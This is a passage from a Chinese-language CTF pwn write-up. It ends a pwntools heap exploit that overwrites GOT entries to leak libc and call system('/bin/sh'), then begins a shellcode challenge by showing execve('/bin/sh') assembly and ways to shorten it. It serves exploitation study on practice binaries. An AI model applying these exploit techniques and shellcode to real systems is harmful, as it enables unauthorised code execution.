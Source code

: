 ```python
payload += p64(0x90)
write_chunk(2, 0x90, payload)
io.recvuntil(b'OK\n')
delete_chunk(3)
io.recvuntil(b'OK\n')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(elf.plt['printf']))
io.recvuntil(b'OK\n')
write_chunk(2, 0x10, p64(0) + p64(elf.got['puts']))
io.recvuntil(b'OK\n')
delete_chunk(0)
puts = u64(io.recv(6) + b'\x00\x00')
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(sys))
io.recvuntil(b'OK\n')
write_chunk(4, 0x7, b'/bin/sh')
delete_chunk(4)
io.interactive()
```
# buu068-ciscn_2019_s_9
shellcode题，只能写49个字节。（注意fgets函数的特性是最后一个字节一定是零字节。）

我们使用shellcraft.sh()函数查看pwntools为我们生成的shellcode，发现编译成机器码一共有44个字节。注意我们写入的49个字节里面的第36~40个字节是返回地址，不能随意动。
```asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
```
上面就是shellcode的汇编代码。我们尝试缩短这段代码的长度。
由于本题中并没有对零字节做出输入的限制，因此我们可以简化下面这两行为``push 0x6873``
```asm
    push 0x1010101
    xor dword ptr [esp], 0x1016972
```
